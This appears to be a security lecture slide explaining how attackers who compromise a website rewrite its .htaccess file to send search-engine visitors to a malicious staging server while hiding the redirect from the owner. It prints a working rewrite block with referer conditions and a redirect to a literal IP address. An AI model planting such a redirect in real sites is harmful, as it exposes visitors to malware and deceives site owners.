

# Redirection Using .htaccess
After compromising the site, change .htaccess to redirect visitors to a malicious site
Hide redirection from website owner

Compromised .htaccess file
    frequently rewritten with new IP addresses,
    restored if site owner deletes it
RewriteEngine On 
RewriteCond %{HTTP _ REFERER} .*google.*$ [NC,OR] 
RewriteCond %{HTTP _ REFERER} .*aol.*$ [NC,OR] 
RewriteCond %{HTTP _ REFERER} .*msn.*$ [NC,OR] 
RewriteCond %{HTTP _ REFERER} .*altavista.*$ [NC,OR] 
RewriteCond %{HTTP _ REFERER} .*ask.*$ [NC,OR] 
RewriteCond %{HTTP _ REFERER} .*yahoo.*$ [NC] 
RewriteRule .* http://89.28.13.204/in.html?s=xx [R,L]
If user comes via one of
these search engines…
…redirect to a
staging server
…which redirects to a
constantly changing set
of malicious domains